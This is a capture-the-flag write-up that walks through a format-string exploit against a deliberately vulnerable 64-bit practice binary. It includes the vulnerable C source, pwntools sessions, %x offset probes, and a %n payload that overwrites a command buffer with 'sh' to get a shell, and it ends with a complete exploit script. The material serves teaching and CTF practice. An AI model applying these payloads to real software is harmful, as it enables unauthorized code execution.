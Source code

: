 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char buf0[100];

int main()
{
  char buf1[200];

  printf("Do you really want to escape, the celebration is nearing.\n");
  fgets(buf1, sizeof(buf1), stdin);

  strcpy(buf0, "ls -asl");
  printf(buf1);

  printf("Here look at all of the wonderful things you have to research.\n");
  system(buf0);
}
```

So we see here, that the exploit to this seems fairly sstraight forward. Just use the printf vulnearbillity to overwrite the value of buf0 with "sh" and we have a shell. However this time, we will be going about doing it using pwntools. Pwntools is a python library designed exclusively for solving ctf challenges, and it does make your life a whole lot easier.  For instance...

For packing hex strings in little endian for 32 bit and 64 bit, pwntools can handle that

```
>>> from pwn import *
>>> p64(0xdeadbeefdeadbeef)
'\xef\xbe\xad\xde\xef\xbe\xad\xde'
```

It can also pack strings, and other things as integers

```
>>> from pwn import *
>>> u64("escpescp")
8098443434456740709
```

It can pull addresses for symbols from programs just like object dump

```
>>> from pwn import *
>>> elf = ELF("f5_64")
[*] '/Hackery/escape/fmt_str/f5_64/f5_64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
>>> context(binary=elf)
>>> print hex(elf.symbols["main"])
0x400606
```

These are only a couple of the conviniet things pwn tools can do.

Now to exploit this binary. The first thing that we will need is knowing the offset for where we can control out input.

```
$ python -c 'print "0000" + "%x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x"' | ./f5_64 
Do you really want to escape, the celebration is nearing.
000060144f.f7dd3790.a782439.60144f.252e7824.30303030.2e782432.2434252e.252e7824
Here look at all of the wonderful things you have to research.
total 4448
   4 drwxr-xr-x  2 guyinatuxedo root            4096 May  8 23:41 .
   4 drwxr-xr-x 14 guyinatuxedo root            4096 May  7 22:34 ..
4372 -rw-------  1 guyinatuxedo guyinatuxedo 4476928 May  8 19:45 core
   4 -rw-rw-r--  1 guyinatuxedo guyinatuxedo     336 May  8 22:26 exploit.py
  12 -rw-r--r--  1 guyinatuxedo guyinatuxedo   12288 May  8 23:41 .exploit.py.swp
   8 -rwxr-xr-x  1 guyinatuxedo root            7464 Feb 26 19:56 f5_64
   4 -rw-r--r--  1 guyinatuxedo root             352 Feb 26 19:51 f5_64.c
   4 -rw-------  1 guyinatuxedo guyinatuxedo     349 May  8 17:21 .gdb_history
   4 -rw-r--r--  1 guyinatuxedo guyinatuxedo     926 May  8 18:13 hi.py
   4 -rw-r--r--  1 guyinatuxedo root             109 Feb 26 19:09 out
   8 -rw-r--r--  1 guyinatuxedo root            5960 Feb 26 19:15 Readme.md
  12 -rwxrwxr-x  1 guyinatuxedo guyinatuxedo    8960 May  8 19:42 test
   4 -rw-r--r--  1 guyinatuxedo guyinatuxedo     291 May  8 19:42 test.c
   4 -rw-rw-r--  1 guyinatuxedo guyinatuxedo     275 May  8 21:30 test_exploit.py
$ python -c 'print "0000" + "%6$x"' | ./f5_64 
Do you really want to escape, the celebration is nearing.
000030303030
Here look at all of the wonderful things you have to research.
total 4448
   4 drwxr-xr-x  2 guyinatuxedo root            4096 May  8 23:41 .
   4 drwxr-xr-x 14 guyinatuxedo root            4096 May  7 22:34 ..
4372 -rw-------  1 guyinatuxedo guyinatuxedo 4476928 May  8 19:45 core
   4 -rw-rw-r--  1 guyinatuxedo guyinatuxedo     336 May  8 22:26 exploit.py
  12 -rw-r--r--  1 guyinatuxedo guyinatuxedo   12288 May  8 23:41 .exploit.py.swp
   8 -rwxr-xr-x  1 guyinatuxedo root            7464 Feb 26 19:56 f5_64
   4 -rw-r--r--  1 guyinatuxedo root             352 Feb 26 19:51 f5_64.c
   4 -rw-------  1 guyinatuxedo guyinatuxedo     349 May  8 17:21 .gdb_history
   4 -rw-r--r--  1 guyinatuxedo guyinatuxedo     926 May  8 18:13 hi.py
   4 -rw-r--r--  1 guyinatuxedo root             109 Feb 26 19:09 out
   8 -rw-r--r--  1 guyinatuxedo root            5960 Feb 26 19:15 Readme.md
  12 -rwxrwxr-x  1 guyinatuxedo guyinatuxedo    8960 May  8 19:42 test
   4 -rw-r--r--  1 guyinatuxedo guyinatuxedo     291 May  8 19:42 test.c
   4 -rw-rw-r--  1 guyinatuxedo guyinatuxedo     275 May  8 21:30 test_exploit.py
```

As you can see, our input is 6 QWORDS away. Our next step is to find the address of the buf0 char array. We can use pwntools to find that. First we need to designate the binary, then we can pull the symbol.

First designate the binary

```
$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> elf = ELF("./f5_64")
[*] '/Hackery/escape/fmt_str/f5_64/f5_64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
>>> context(binary=elf)
```

Then we can pull the symbol

```
>>> elf.symbols["buf0"]
6294304
>>> hex(elf.symbols["buf0"])
'0x600b20'
>>> buf0_address = p64(elf.symbols["buf0"])
```

As you can see, the address for the buf0 char array is 0x0000000000600b20 (since it is ab and64 address, it needs those zeroes, however they don't change the value of the string). We packed the address in little endian then stored it in buf0_address. Now what's left is to start the process, craft the exploit, then use it. First let's start the binary.

```
>>> target = process("./f5_64")
[x] Starting local process './f5_64'
[+] Starting local process './f5_64': pid 29027
``` 

Next we will need to pack the string "sh" in a way that the binary can read it. We can do this by unpacking the string. Since it is 64 bit, it will need 8 characters but we can fill it with zeroes. Also if you were to unpack it as 32 bit for this, it would give you the same output (you would need to take off four zeroes). This will output as an integer, however we will need to convert it to a string for later.

```
>>> u64("sh\0\0\0\0\0\0")
26739
>>> sh = str(u64("sh\0\0\0\0\0\0"))
>>> sh
'26739'
```

Now we should be ready to craft the exploit. Our exploit should have atleast 11 characters (%26739x%8$n), so we will need to add an additional 5 characters to make it 16 so the address can be properly stored in a QWORD. This will move the address over to the eight QWORD. Now that we have all of the pieces, let's craft the exploit, then drop into an interactive prompt so we can use the shell!

```
>>> target.sendline("%" + sh + "x%8$n00000" + str(buf0_address))
>>> target.interactive()
```

One wall of text later...

```
             60143900000 
                         `Here look at all of the wonderful things you have to research.
ls
core      f5_64    hi.py  Readme.md  test.c
exploit.py  f5_64.c  out    test       test_exploit.py
cat out
Fine, while your busy running away I will start welcoming people. To the celebration. For you. Level Cleared
exit
[*] Got EOF while reading in interactive
exit
[*] Process './f5_64' stopped with exit code 0 (pid 4953)
[*] Got EOF while sending in interactive
>>> exit()
[*] Stopped process './f5_64' (pid 3922)
```

Just like that, we pwned the binary! Now to make things easier I made a python script that does what we just did in a python shell.

```
#First import pwn tools
from pwn import *

#Declare the binary, and run it
elf = ELF("./f5_64")
context(binary=elf)
target = process("./f5_64")

#Grab the buf0 address
buf0_address = p64(elf.symbols["buf0"])

#Unpack sh and store as a string
sh = str(u64("sh\0\0\0\0\0\0")) 

#Finish crafting the exploit and send it
target.sendline("%" + sh + "x%8$n00000" + str(buf0_address))

#Drop to an interactive prompt to use the shell
target.interactive()
```